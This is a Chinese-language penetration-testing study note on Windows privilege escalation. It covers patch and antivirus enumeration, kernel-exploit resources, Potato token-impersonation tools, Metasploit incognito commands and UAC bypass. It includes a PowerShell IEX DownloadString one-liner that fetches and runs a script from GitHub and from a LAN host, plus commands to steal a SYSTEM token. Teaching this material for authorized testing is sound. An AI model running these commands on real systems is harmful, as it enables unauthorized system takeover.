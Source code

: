 # **7月8日 内网提权**

### **什么是提权**

提权： 把低权限变为高权限

windows :  zhangsan  -> administrator -> system

linux : www-data  -> root 

### **提权的分类**

利用方式的不同：

本地提取：在一个低权限用户的前提下，通过漏洞提权至高权限用户

远程提权： 攻击者直接通过漏洞攻击获取最高权限用户

漏洞的不同：

操作系统提权：

windows：ms08067 ms1105

linux: dirty cow

应用程序提权：

mysql，mssql，IE，phpstudy

### **提权的思路**

提权的前提是目标系统存在漏洞或配置缺陷

- 基本信息收集

- 扫描系统、服务漏洞
- 寻找应用程序漏洞

## **windows ⭐️**

#### **收集信息 ：**

补丁信息 ： systeminfo

http://blog.neargle.com/win-powerup-exp-index/#

wmic qfe get Caption,Description,HotFixID,InstalledOn

杀毒软件：

WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List

### 内核漏洞

windows 内核漏洞exp ： https://github.com/SecWiki/windows-kernel-exploits

##### **内核漏洞检测**

- powershell脚本 - Sherlock.ps1 ：

https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1

运行： 在cmd命令行中运行

powershell.exe IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1');Find-AllVulns

powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.111.77:8000/1.ps1');Find-AllVulns

- msf : post/multi/recon/local_exploit_suggester

(检测时要注意 ， meterpreter的位数必须要和靶机操作系统位数一致)

​        rottenpotato ：		https://github.com/foxglovesec/RottenPotato/blob/master/rottenpotato.exe

use incognito  #该模块用来窃取令牌、模仿令牌

list_tokens -u  #列举当前的令牌

execute -cH -f ./potato.exe  #执行exp

list_tokens -u  #查看令牌，有一个SYSTEM权限的模仿令牌

impersonate_token "NT AUTHORITY\\SYSTEM"执行偷取窃取令牌命令

- cs 

cna脚本拓展

Taowu ： https://github.com/pandasec888/taowu-cobalt-strike



**Origin Potato :**

https://github.com/foxglovesec/Potato

**RottenPotato & JuicyPotato:**

https://github.com/ohpe/juicy-potato

**Rogueotato**

https://github.com/antonioCoco/RoguePotato

**SweetPotato:**

https://github.com/CCob/SweetPotato

​                 ![img](../img/内网渗透-提权/Qwxi2caXJXyMsENClyvCKQ.png)        

### **bypassuac**

uac是用户账户控制 ， 在windows vista 之后出现，用于限制敏感操作。 由于一般情况下，windows 默认账户 都是处于administratos 组中，所以绕过uac，即可获取system用户权限

- msf ： exploit/windows/local/bypassuac  

 ! msf bypassuac 之后获取到meterpreter 还需要进行getsystem才能获取system用户

​                 ![img](..\img\内网渗透-提权\mLBVaTpIf6bJuEJCw8I4Yg.pngw=1280&h=283.png)        

 ？ 在getsystem之后怎么回到administrators 组用户

​                 ![img](..\img\内网渗透-提权\ROXoYor-EZGYYhp2XGpU8A.png)        

- cs bypassuac

​                 ![img](..\img\内网渗透-提权\jb2wJl93KloOLJkFkbf8OA.png)        

​                 ![img](..\img\内网渗透-提权\TWKhqOIR5HQw4cGPhecHIA.png)        

 
